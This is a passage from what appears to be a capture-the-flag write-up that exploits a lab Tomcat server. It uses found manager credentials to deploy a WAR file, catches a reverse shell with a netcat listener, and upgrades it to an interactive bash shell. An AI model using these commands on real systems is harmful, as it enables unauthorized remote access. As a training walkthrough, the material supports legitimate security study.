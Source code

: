 The URL to deploy the file can be found on the official [tomcat documentation](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_%28WAR%29_Remotely). Note that we had to escape the $ sign in the password for the password to be interpreted correctly.

The above command gives us a success message.

```text
OK - Deployed application at context path [/rkhal101]
```

We can also see the list applications using the following command.

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" http://10.10.10.194:8080/manager/text/list
```

Next, setup a listener to receive the reverse shell.

```text
sudo nc -nlvp 53
```

Then call the deployed war file.

```text
curl http://10.10.10.194:8080/rkhal101/
```

We get a shell!

![Image for post](../images/max/1036/1*CWiY-OCjhkTm7t5tq3-DuA.png)

Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```
